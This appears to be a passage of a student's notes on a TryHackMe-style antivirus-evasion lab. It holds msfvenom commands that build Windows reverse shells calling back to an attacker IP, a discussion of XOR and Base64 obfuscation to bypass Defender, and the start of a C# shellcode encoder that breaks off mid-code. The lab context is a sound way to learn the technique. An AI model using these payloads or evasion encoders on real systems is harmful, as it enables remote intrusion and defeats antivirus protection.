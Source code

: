 	- List all the encryption types.

```shell-session
user@AttackBox$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.85.208 LPORT=7788 -f exe --encrypt xor --encrypt-key "MyZekr3tKey***" -o xored-revshell.exe
```

	- Once again, if we upload the resulting shell to the THM AV check page at `http:<attacker-ip>/` it will still be flagged by the AV.
	- The reason is still that AV vendors have invested lots of time into ensuring simple msfvenom payloads are detected.
			- This shows how powerful encryption for bypassing AV checks still are but you have to use different methods or rather, different encryption combination since in this example, it only uses a single instance of XOR encryption. Maybe if it got mixed with other 2 encryption methods, it could bypass the AV check.

![](/assets/img/Pasted image 20230114155521.png)

### Creating a Custom payload

- The best way to overcome this is to use our own custom encoding schemes to that the AV doesn't know what to do to analyze our payload.
- Notice you don't have to do anything too complex, as long as it is confusing enough for the AV to analyze.
- For this task, we will take a simple reverse shell generated by `MSFVenom` and use a combination of `XOR` and `Base64` to bypass Defender:

`user@AttackBox$ msfvenom LHOST=ATTACKER_IP LPORT=443 -p windows/x64/shell_reverse_tcp -f csharp`

	- Notice that the encoding and encryption doesn't happen in `msfvenom` but dones so with C# code.

### The Encoder

- Before building our actual payload, we will create a program that will take the shellcode generated by `msfvenom` and encode it in any way we like.
- In this case, we will be `XOR-ing` the payload with a custom key first and then encoding it using `Base64`.
- Here's the complete code for the `encoder` also at `C:\Tools\CS Files\Encryptor.cs`

```csharp

using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace Encrypter
{
    internal class Program
    {
        private static byte[] xor(byte[] shell, byte[] KeyBytes)
        {
            for (int i = 0; i < shell.Length; i++)
            {
                shell[i] ^= KeyBytes[i % KeyBytes.Length];
            }
            return shell;
        }
        static void Main(string[] args)
        {
            //XOR Key - It has to be the same in the Droppr for Decrypting
            string key = "THMK3y123!";

            //Convert Key into bytes
            byte[] keyBytes = Encoding.ASCII.GetBytes(key);

```